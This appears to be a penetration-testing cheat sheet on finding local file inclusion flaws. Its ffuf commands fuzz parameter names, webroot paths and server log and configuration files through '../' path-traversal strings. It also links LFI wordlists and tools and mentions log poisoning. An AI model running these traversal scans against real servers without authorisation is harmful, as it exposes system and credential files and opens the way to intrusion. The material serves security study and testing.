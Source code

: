 ### Fuzzing Parameters using Ffuf
```bash
$ ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u 'http://<VULNERABLE_IP>:<PORT>/index.php?FUZZ=value' -ic
```
#### After performing the above fuzzing we can try all LFI attacks on the parameters. [Popular LFI parameters](https://book.hacktricks.xyz/pentesting-web/file-inclusion#top-25-parameters)

### [LFI Wordlists](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)

### Fuzzing Server Files
### Server Webroot
#### When we want to reach a directory through relative paths (e.g `../../uploads`) we may need to locate the server webroot path in order to locate files in that directory.
### We can achieve that by fuzzing for the index.php file though common webroot paths. [Wordlist for Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt)   //  [Wordlist for Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt)

```bash
$ ffuf -w /usr/share/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt -u 'http://<SERVER_IP>:<PORT>/index.php?lang=../../../../FUZZ/index.php' ic -fs <filter_by_size>
```

### Server Logs/Configurations
#### These files can be useful to perform log poisoning attacks.In addition, we may also need to read the server configurations to identify the server webroot path.
#### Useful Wordlists for [Linux](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux) and [Windows](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows)
```bash
$ ffuf -w ./LFI-WordList-Linux -u 'http://<SERVER_IP>:<PORT>/index.php?lang=../../../../FUZZ' -fs <filter_by_size>
```

### LFI Tools
* [LFISuite](https://github.com/D35m0nd142/LFISuite)  
* [liffy](https://github.com/mzfr/liffy)  